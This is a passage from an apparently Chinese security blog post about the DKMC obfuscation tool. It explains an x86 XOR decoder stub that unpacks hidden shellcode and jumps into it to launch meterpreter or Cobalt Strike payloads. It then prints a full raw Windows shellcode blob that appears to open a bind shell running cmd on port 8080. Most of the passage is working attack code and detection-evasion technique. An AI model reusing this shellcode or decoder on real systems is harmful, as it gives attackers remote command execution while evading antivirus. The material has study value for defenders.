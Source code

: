 > EBX包含测试所用密钥
> EAX指向混淆数据
> EAX中的32位值压栈，然后从ECX寄存器pop，所有的ECX的值被交换，ECX中的值和EBX中的值进行异或，异或结果将和魔术数进行比较，直到ECX的值匹配魔术数为止。

```
1e:     b9 XX XX XX XX          mov ecx,0xXXXXXXXX
21:     01 d0                   add eax,edx
23:     31 18                   xor DWORD PTR [eax],ebx
25:     e2 fa                   loop 21
```

> ECX寄存器作为循环体的计数器
> DWORD=4字节。循环次数=shellcode长度/4
> 用EBX中的密钥异或已混淆的4字节shellcode
> 循环直到所有值的混淆已经解开


```
27:     2d XX XX XX XX      sub   eax,0xXXXXXXXX
2b:     ff e0               jmp   eax
```

> EAX现在指向shellcode的结尾
> 为了指向起始位置，减少shellcode长度
> 跳转到解混淆的shellcode
> 执行最后的payload(meterpreter/Cobalt Strike beacon)

## 运行程序

![](/img/hack/DKMC/1505229024760.png)

```
\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x08\x59\x50\xe2\xfd\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x68\x02\x00\x1f\x90\x89\xe6\x6a\x10\x56\x57\x68\xc2\xdb\x37\x67\xff\xd5\x57\x68\xb7\xe9\x38\xff\xff\xd5\x57\x68\x74\xec\x3b\xe1\xff\xd5\x57\x97\x68\x75\x6e\x4d\x61\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xaa\xc5\xe2\x5d\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5
```